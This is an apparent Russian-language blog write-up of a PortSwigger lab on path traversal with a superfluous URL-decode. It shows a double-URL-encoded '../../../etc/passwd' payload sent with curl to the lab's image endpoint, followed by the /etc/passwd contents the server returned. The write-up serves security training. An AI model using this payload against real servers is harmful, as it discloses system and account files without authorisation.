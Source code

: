 ```yaml
---
title: "File path traversal, traversal sequences stripped with superfluous URL-decode"
date: 2025-07-04
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-superfluous-url-decode"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует передаваемые параметры со специальными символами. Перед обработкой происходит декодирование `URL` значений.

Необходимо вывести содержимое файла `/etc/passwd`.

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net
```

## Solution

Из задания понятно, что нужно смотреть загрузку фотографий, поэтому сразу беру нужный запрос:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/1.png){: height="200" .align-center}

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=58.jpg
```

Сервер фильтрует специальные символы в запросе. Перед проверкой он декодирует `URL` кодировку. Почему бы тогда не закодировать пейлоад дважды?) Для этого удобно использовать [Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(/disabled)URL_Encode(true)URL_Encode(false/breakpoint)&input=Li4vLi4vLi4vZXRjL3Bhc3N3ZA):

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/2.png){: height="200" .align-center}

Я получил следующий пейлоад:

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Передам его в качестве значения в `GET`-запросе:

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Я получил ошибку:

```
The image 'https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd' cannot be displayed because it contains errors.
```

Содержимое можно получить с помощью `curl`:

```bash
cu63:~/ $ curl https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image\?filename\=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd                                                  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
